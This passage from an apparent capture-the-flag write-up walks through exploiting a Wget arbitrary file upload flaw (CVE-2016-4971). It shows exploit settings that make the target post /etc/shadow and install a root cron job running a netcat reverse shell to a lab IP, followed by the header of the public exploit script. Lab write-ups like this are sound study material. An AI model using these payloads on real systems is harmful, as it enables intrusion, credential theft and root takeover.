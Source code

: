 ![image](assets/82759010-31025080-9db8-11ea-8d89-0482bef431c5.png)

Doing a searchsploit search for wget showed an arbitrary file upload / rce vulnerability.

![image](assets/82740039-0611f100-9d13-11ea-86df-f2d68d4b81d4.png)

> GNU Wget before 1.18 when supplied with a malicious URL (to a malicious or compromised web server) can be tricked into saving an arbitrary remote file supplied by an attacker, with arbitrary contents and filename under the current directory and possibly other directories by writing to .wgetrc. Depending on the context in which wget is used, this can lead to remote code execution and even root privilege escalation if wget is run via a root cronjob. The full write-up can be found here: http://legalhackers.com/advisories/Wget-Arbitrary-File-Upload-Vulnerability-Exploit.txt

The POC works by listening on port 80 and responding with a 302 redirect that the target will follow to my box on port 21. At the root of the ftp server on my box is a .wget which instructs wget (via "post_file") on the next run to display the contents of a file, /etc/shadow in this case, and create a cron job (via "output_document").

I modified the script by setting the listen IP to 0.0.0.0 (all interfaces), set the ftp host to my tun0 IP address, and create a cron job that will call back to kotarak-dmz on port 3000.

```
HTTP_LISTEN_IP = "0.0.0.0"
FTP_HOST = '10.10.14.29'
ROOT_CRON = "* * * * * root /bin/sh rm /tmp/z;mkfifo /tmp/z;cat /tmp/z|/bin/sh -i 2>&1|nc 10.10.10.55 3000 >/tmp/z"
```

```
#!/usr/bin/env python

#
# Wget 1.18 < Arbitrary File Upload Exploit
# Dawid Golunski
# dawid( at )legalhackers.com
#
# http://legalhackers.com/advisories/Wget-Arbitrary-File-Upload-Vulnerability-Exploit.txt
#
# CVE-2016-4971 
#

import SimpleHTTPServer
import SocketServer
import socket;

```
